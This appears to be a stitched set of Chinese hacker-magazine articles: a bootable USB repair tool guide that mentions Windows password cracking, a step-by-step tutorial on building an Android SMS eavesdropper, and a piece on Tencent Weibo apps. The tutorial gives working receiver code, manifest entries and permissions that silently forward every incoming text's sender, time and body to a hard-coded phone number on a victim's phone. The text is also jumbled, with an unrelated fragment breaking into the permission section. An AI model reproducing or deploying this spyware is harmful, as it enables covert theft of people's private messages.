“大白菜”的全名是“大白菜U盘启动制作工具V1.8精简版.exe”，下载之后直接双击进行软件的安装，非常简单，选择安装的目标文件夹后点击“下一步”按钮（可以跳过“设置515.net导航”设置）即可。然后将U盘插入，再双击运行安装好的“大白菜U盘启动制作工具 V1.8精简版”，此时就会在运行界面下方的“请选择U盘：”处显示出已经插入的U盘的信息——“H: (厂商: Generic, 产品: Flash Disk, 版本号: 8.00, 序列号: ) ”，其后的“USB-HDD”选项保持默认即可。然后点击“一键制成USB启动盘”按钮（如图1），“大白菜”会提示我们“本操作将破坏U盘原有数据，且不可恢复…还要继续本操作吗？ ”，所以一定要记得提前将U盘的文件都备份好。接着，“大白菜”就开始了U盘启动系统的制作过程，用不了几分钟就会提示我们“恭喜你，制作完成！”。
其实经过这一步的操作已经完成了启动式U盘的处理，通过点击第二个“U盘启动项配置”按钮进入“仅供专业人士”使用的“启动项高级管理”窗口，将“菜单名称”及“ISO文件路径”均设置好之后，点击“添加”按钮即可在U盘启动菜单中添加相关的选项（如图2）。还有，第三项“归还U盘空间”按钮所提供的功能是将生成的U盘恢复为空白U盘，因为被添加了“大白菜”启动功能之后的U盘上增加了若干隐藏的文件（大约是1GB左右）。

如何使用这个“大白菜”超级U盘呢？非常简单，就像将光驱设置为第一启动项一样，在机器的CMOS开机菜单中将U盘设置为第一启动项，对应的是“USB HDD”之类的名称。接着将这个U盘插入待修复机器的USB接口，开机，很快就会进入“大白菜”超级U盘的启动菜单（如图3），包括“运行Windows PE（系统安装）”、“DISKGEN2010分区工具”、“运行深山红叶DOS工具箱”、“进入硬件维护工具菜单”和“运行Windows登录密码破解”、“运行一键还原系统”、“启动本机VISTA/2008/Windows 7系统”等诸多选项均在其中，当然也包括我们手工添加的ISO文件对应菜单选项。一般情况下，本着“治病救人”的原则，如果机器的系统未被完全破坏的话（比如仅仅是丢失了几个关键系统文件），我们可以选择第一项“运行Windows PE（系统安装）”，进入“大白菜”集成的Windows Server 2003PE系统进行修复——桌面上已经提供了包括“一键安装克隆版系统”、“原机器驱动提取”、“WIN系统安装器”和“手工克隆安装”、“数据恢复工具”、“系统密码破解”等实用工具（如图4）。
在这个功能齐全的“大白菜”超级U盘的帮助下，相信各种系统恢复和安装工作都不会难倒我们了，大家不妨一试。

（文中涉及的“大白菜U盘启动制作工具V1.8精简版”本期光盘已收录）

# Android 的手机短信窃听器开发实战

黑酷

现在智能手机越来越多，目前市场上的智能手机的操作系统大概分为Symbian、WindowsMobile、Linux、palm、Mac OS还有最新的Android和OMS。虽然现在智能手机的功能越来越丰富了，但是在智能手机的安全方面还存在很多不足，即使现在已经有了一些智能手机杀毒软件，但是仍不能全面的保证智能手机的安全。下面我给大家介绍一下如何通过编程的方法来实现窃听别人手机的短信——手机短信窃听器。

安装，在安装的过程中或许有一点慢，因为需要联网去下载各个版本的SDK，下载速度和你的网速有关，如果你想快一点的话可以仅下载你所需要的版本的SDK，我开发这个手机短信窃听器的程序是基于2.2版本，所以你最少下载2.2版本的SDK。
图1

## 一、准备工作

首先，要开发基于Android操作系统的手机短信窃听器，就必须要搭建一个Android软件开发环境，我采用的开发环境主要包括如下工具：

- (1) JAVA的IDE开发工具——Eclipse
- (2) Java开发包——Java SE Development Kit (JDK) JDK 6
- (3) Android开发包——Android SDK
- (4) Android开发插件(ADT- plugin)

### 1.1 环境搭建步骤如下：

#### A、JDK的安装

首先，我们先安装JDK。可到http://cds-esd.sun.com/ESD6/JSCDL/jdk/6u23-b05/jdk-6u23-windows-i586.exe?AuthParam=1296969018_ddb7d150646bcb31797a9749b051017d&TicketId=B%2Fw6kB2FRFJCSxJLOFZelAfh&GroupName=CDS&FilePath=/ESD6/JSCDL/jdk/6u23-b05/jdk-6u23-windows-i586.exe&File=jdk-6u23-windows-i586.exe这个网站上下载JDK，下完以后进行安装，安装步骤很简单一直点“下一步”即可，如（图1）。

#### B、SDK的安装

下面安装Android开发包——Android SDK我们可以到Google的官方网站下载，但是在国内官方下载地址打不开，我们可以到http://www.android123.com.cn/这个网站上去下载。下载完后会得到一个压缩包，把这个压缩包解压之后会看到这样几个文件，如（图2）。

然后，运行“SDK Manager.exe”进行androidSDK的安装，在安装的过程中或许有一点慢，因为需要联网去下载各个版本的SDK，下载速度和你的网速有关，如果你想快一点的话可以仅下载你所需要的版本的SDK，我开发这个手机短信窃听器的程序是基于2.2版本，所以你最少下载2.2版本的SDK。
图2
图3

我安装的时候是选择所有版本下载的，在“Choose Packages to Install”菜单点击“Accept All”然后再点击“Install”就完成了（图3）如果你只下载2.2版本的话，在Packages栏里的“SDK Platfrm Android 2.2, APT 0, rev……”然后点击下面的“Install”进行安装即可。

#### C、Eclipse和ADT插件的安装

安装完SDK以后，下面我们在安装JAVA的IDE开发工具——Eclipse要安装JAVA的IDE开发工具——Eclipse首先要到www.eclipse.org这个网站去下载最新版本的Eclipse 解压即可。

下面安装ADT，首先启动安装完的Eclipse目录下的Eclipse.exe点击菜单“Help”->“Install New Software...”，Install菜单里的Work with的右边加入以下地址：“https://dl-ssl.google.com/android/eclipse/”选“Delevoper Tools”选择它下面所有的插件然后点击“NEXT”（图4）。Eclipse此时会从加入的地址中自动下载跟安装ADT，稍等一会，安装完毕后，提示需要重启Eclipse，点击完成 重启Eclipse。
重启Eclipse之后运行ADT的时候打开显示的是无法打开此菜单，这时候我们需要配置一下，首先，点击“Window”---->“preferences”---->“Android”然后在SDK Location的右边添写上你安装SDK的路径，然后点“OK”（图5）即可完成ADT的安装和配置。

安装完ADT以后，必须创建一个Android虚拟机，怎么创建呢？创建一个Android虚拟机。首先，点击Eclipse工具栏里的ADT图标，然后点New在Name的右边随便写几个非常好记的名字，在Target的右边随便选上一个版本，我选择的版本是2.2因为这是最新的版本，然后再SDcard的右面写上手机的SDcard的大小，我写的是256 我认为256应该够了，然后在下面的Built-in的右面选择HVGA最后点击下面的Create AVD，如（图6 7）。
### 1.2 手机短信窃听器的原理如下：

上面写的是建立Android开发环境，下面介绍一下手机窃听器的功能，手机短信窃听器的功能就是当你把手机窃听器的软件发送到别人的Android操作系统的手机上时安装以后，那个人接收到的短信都会给指定的号码转发过去。

知道了短信窃听器的功能，下面说说短信窃听器的原理，当系统接收到短信的时，会发出一个action名称为android.provider.Telephony.SMS_RECEIVED的广播Intent,这个意图存放了接收到的短信内容，通过名称“pdus”可以从Intent中获得短信内容，然后再把这些短信的内容的格式改成短信的格式，最后在发送给指定的手机号。

## 二、编写代码

在建立好环境和了解短信窃听器原理的基础上，下面，通过编程来实现短信窃听器的功能。

### 2.1 广播接收者简介：

我们在正式开写Android的手机短信窃听器之前必须知道什么是广播接收者，广播接收者（BroadcastReceiver）用于异步接收广播Intent，广播Intent的发送是通过调用Context.sendBroadcast()、Context.sendOrderedBroadcast()或者Context.sendStickyBroadcast()来实现的。通常一个广播Intent可以被订阅了此Intent的多个广播接收者所接收。广播接受者，所接收。

要实现一个广播接收者方法如下：

第一步：继承BroadcastReceiver,并重写onReceive()的方法。

```
public class IncomingSMSReceiver extends BroadcastReceiver {
    @Override public void onReceive(Context context, Intent intent){
    }
}
```

第二步：订阅感兴趣的广播Intent,订阅可以用以下方法。

```
在AndroidManifest.xml文件中的<application>节点里进行订阅:
<receiver android:name=".IncomingSMSReceiver">
    <intent-filter>
        <action android:name="android.provider.Telephony.SMS_RECEIVED"/>
    </intent-filter>
</receiver>


```

### 2.2 核心功能代码编写：

下面我们就利用广播接收者来编写一个短信窃听器，首先建立一个Android工程项目，我们在“New Android project”菜单中的“project name”里写上新建工程的名字，然后在“Build Target”里面选一个Android SDK的版本，然后在“propercise”栏里“Application name”框中写一个应用程序名，然后在“Package name”框中写一个包名（包名的格式一般是“作者名。程序名”），然后在“Create Activity”框中写一个Activity的名，这个程序不需要这个界面，所以在后面就要把它删掉，在“Min SDK Version”的框中写上你所选的最小SDK版本，要与Apk的版本相对应，最后点击“Finish”即可完成Android项目的创建，如（图8）。

在项目创建完成后需把Activity删掉，操作步骤是：在AndroidManifest.xml里把有关Activity的代码删掉，如（图9）。
接下来我们建立一个广播接收者，右键项目中的“src”目录选择“NEW”菜单中的“CLASS”来创建一个类。在“New Java Class”窗口中“Name”框中写上广播接收者的类名，然后在“Superclass”的后面点击“Browse...”选“android.content.BroadcastReceiver”来继承广播接收者父类，最后点击“Finish”完成广播接收者的创建。（图10）

下面开始编写核心功能代码，首先在src->SmsListener.java中编写如下代码：

```
Bundle bundle = intent.getExtras();
```

这句代码的作用是通过intent.getExtras函数获得意图。

```
if (bundle != null) {
    Object[] pdus = (Object[]) bundle.get("pdus");
    SmsMessage[] messages = new SmsMessage[pdus.length];
    for (int i = 0; i < pdus.length; i++){
        messages[i] = SmsMessage.createFromPdu((byte[]) pdus[i]);
    }
```

这段代码的意思是判断这条意图是不是为空，如果意图存在那么通过bundle.get函数在意图中得到pdus的内容信息，但是，所得到的这条信息的格式不是我们想要的，然后通过SmsMessage.createFromPdu函数把pdus格式转换成短信息格式。

```
SmsManager manager = SmsManager.getDefault();
for(SmsMessage msg : messages) {
    String content = msg.getMessageBody();
    String sender = msg.getOriginatingAddress();
    Date date = new Date(msg.getTimestampMillis());
    SimpleDateFormat format = new SimpleDateFormat("yyyy-MM-dd HH:mm:ss");
    String time = format.format(date);
    String text = time+":"+sender+":"+ content;
    manager.sendTextMessage("15636861600",null, text, null, null);
}
```

这段代码的意思是创建一个名为manager的短信管理器，通过SmsManager.getDefault()函数得到android默认的短信管理器并赋值给manager，因为下面这个要用manager发送短信给指定的手机号，然后，通过msg.getMessageBody()函数获得短信内容并赋值给content，在通过msg.getOriginatingAddress()函数获得短信来源（发送者的手机号）地址并赋值给sender，在通过msg.getTimestampMillis()函数获得得到的短信接收时间赋值给date，然后通过format.format函数将date格式转换为字符的类型并赋值给time，将时间和发送地址还有信息内容合并赋值给text，最后通过manager.sendTextMessage函数将这条信息发送给被指定的手机号码。

### 2.3核心配置如下：

然后是订阅广播意图的步骤是：在res->AndroidManifest.xml里，在<application>标签的下面把这几个代码写上：

```
<receiver android:name=".SmsListener">
    <intent-filter>
        <action android:name="android.provider.Telephony.SMS_RECEIVED" />
    </intent-filter>
</receiver>
```

这段代码是订阅接收短信的广播意图，当手机接收到短信的时候，系统就会发出一个名为“android.provider.Telephony.SMS_RECEIVED”的广播意图，当这个意图与我们订阅的意图匹配时，就会执行我们编写的代码。

下面我们还需要为程序增加去权限。可以在AndroidManifest.xml里使用<uses-permission>标签来实现权限的添加。

```
<uses-permission android:name="android.permission.RECEIVE_SMS"/>
```

这条代码是允许收到短信的权限，这条代码起到了能接收到短信的作用，如果不写这个权限，那么我们的程序就无法接收到短信了。

```
<uses-permission android:name="android.permission.SEND_SMS"/>
```


## 2011合订本上卷

## 寂寞梧桐


文章中都已经在文中都讲解过了，由于这个软件有一定的危害性，在这里我就不提供完整的项目工程了，在光盘中我会提供编译好的程序，如果大家想试一下的话可以把我提供编译好的程序传到真实的手机试验一下，感兴趣的朋友也可以通过反汇编进行逆向分析。


这是允许程序发送SMS短信的权限，如果不加这个权限，那么窃听器就没法将窃听到的信息发送给我们了，所以必须加这个权限。

### 三、编译测试

现在终于大功告成了。完成了所有代码的编写，现在我们将代码编译一下并使用虚拟机测试一下效果，看看这个好不好用。编译测试的方法很简单（图11），右键窃听器工程目录，选择“Run As”-----> “1Android Application”进行编译调试。

我们的试验方法是，将短信窃听者安装在5554上，短信窃听者功能是：将5554接收到的短信发给5556。然后我们用5558给5554发短信，那么短信窃听者就会偷偷的把这个短信发送给5556，效果如图（12）。

到这里我们已将完成了短信窃听者的开发的全过程，如果有不明白的地方可以与我联系进行交流，我的QQ是664933772 欢迎大家和我一起学习一起进步。核心代码在


（文中涉及的相关软件本期光盘已收录）

# 写微博无聊了，来娱乐一下吧

黑夜红云

各位叉子整天写微博难免有时会无聊吧！那就来娱乐一下吧！去哪玩？当然还是微博了。不知道叉子们知不知道有个微博应用呢？就在微博的上方。（图1）

应用里有很多好玩的哦！我就选几个精品介绍下，剩下的就让叉子们自己发现了。


## 一、认识

根据腾讯的介绍：腾讯微博开放平台，为广大开发者提供开放接口，可构建丰富多样的应用。
你的应用能从微博获取海量资讯，或将信息传播到千万级用户的平台中，得到营销推广机会。
提供开放的数据分享和传播服务，加上你的智慧，将创造无穷的功能与乐趣。

## 二、开玩

腾讯微博的应用虽然不算多，但也不少。我们就看几个精品吧！

### 1. 测测你是哪种蔬菜吧

测试你是什么蔬菜，简单的问题帮你更好的认识自己。
先进入应用地址：http://good.ci123.com/app/qq/QQ 个性选择出生年月，性别，血型，然后OK。网页跳转后选择“授权”就可以看到了。（我是白萝卜- =！！！）（图2 3）

### 2. 美图秀秀超能力测试（强力推荐）

输入名字，看看你有什么超能力。应用地址：http://8.app.meitu.com/。和前面基本相同，授权下输入名字就好了。（晚上失眠的时候，可以飞到某人的被窝o _ o 还不如萝卜。）（图4）

### 3. 微博估值

《微博估值》是腾讯微博首款在线价值评估型人气应用，在帮助腾讯微博用户了解账号数据综合指数变化的同时，可以实现娱乐化的在线互动与分享效果，能够更好的提升微博用户之间的关注度。应用地址：http://qq.shejiao.com 老样授权，输入名字，就可以知道你的微博值多少钱了。（这次不错哦，有没人要收购的，叉子优惠哦(^o^)/）（图5）

### 4. 三国杀Q版形象照

别告诉我你没玩过三国杀，这个可以查看你自己和你好友分别是什么三国杀的Q版形象照。点马上试试，然后选择自己或好友就好了（这个就不截图了，太大了）应用地址：http://www.51by.com/app/sgs/。（图6）
腾讯微博还有很多好玩的应用，应为精力有限不能为叉子们一一介绍了。剩下的就让叉子们自己发现了。
